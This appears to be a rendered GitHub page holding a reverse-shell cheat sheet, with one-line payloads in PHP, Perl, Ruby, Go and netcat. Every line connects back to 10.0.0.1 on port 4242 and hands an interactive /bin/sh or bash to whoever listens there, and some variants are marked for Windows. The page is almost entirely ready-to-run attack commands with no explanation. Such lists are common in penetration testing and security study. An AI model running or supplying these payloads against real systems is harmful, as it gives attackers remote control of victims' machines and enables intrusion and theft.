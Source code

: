 ### PhP

- php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

- php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

- php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'

- php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'

- php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'

- php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

- php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

### Perl

- perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

- perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


#### NOTE: Windows only
- perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

### Ruby

- ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#### NOTE: Windows only
- ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'





### Golang

- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go


### Netcat Traditional

- nc -e /bin/sh 10.0.0.1 4242
- nc -e /bin/bash 10.0.0.1 4242
- nc -c bash 10.0.0.1 4242
